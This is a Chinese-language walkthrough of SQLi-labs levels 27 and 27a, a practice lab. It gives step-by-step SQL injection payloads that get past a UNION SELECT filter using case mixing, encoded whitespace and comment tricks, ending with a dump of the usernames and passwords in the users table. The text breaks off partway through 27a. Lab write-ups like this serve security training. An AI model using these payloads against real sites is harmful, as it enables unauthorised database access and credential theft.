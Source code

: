 

### less-27

#### 考点：

测试发现：字符型，单引号闭合，无括号。union select 被过滤

#### 思路

爆库

```
?id=0'%0AUNion%0ASElEct%0A1,database(),3||'1'='1
```

爆表

```
?id=0'%0AUNion%0ASElEct%0A1,(SELEct%0Atable_name%0Afrom%0Ainformation_schema.tables%0Awhere%0Atable_schema='security'%0Alimit%0A0,1),3||'1'='1
```

爆字段

```
?id=0'%0AUNion%0ASElEct%0A1,(SELEct%0Acolumn_name%0Afrom%0Ainformation_schema.columns%0Awhere%0Atable_name='security'%0Alimit%0A0,1),3||'1'='1
```

爆值

```
?id=0'%0AUNion%0ASElEct%0A1,(SelecT(group_concat(username,'~',password))from(users)),3||'1'='1
```



### less-27a

#### 考点：

本质上与27题一样，但我们这次采用/**/的方法绕过

%09：TAB

#### 思路

爆库

```
?id=0"/*%09*/unIon%09/*SeleCt*/%091,database(),3||"1
```

爆表

```
?id=0"/*%09*/unIon%09/*SeleCt*/%091,(SeleCt%09group_concat(table_name)%09from%09information_schema.tables%09where%09table_schema='security'),3||"1
```

爆字段
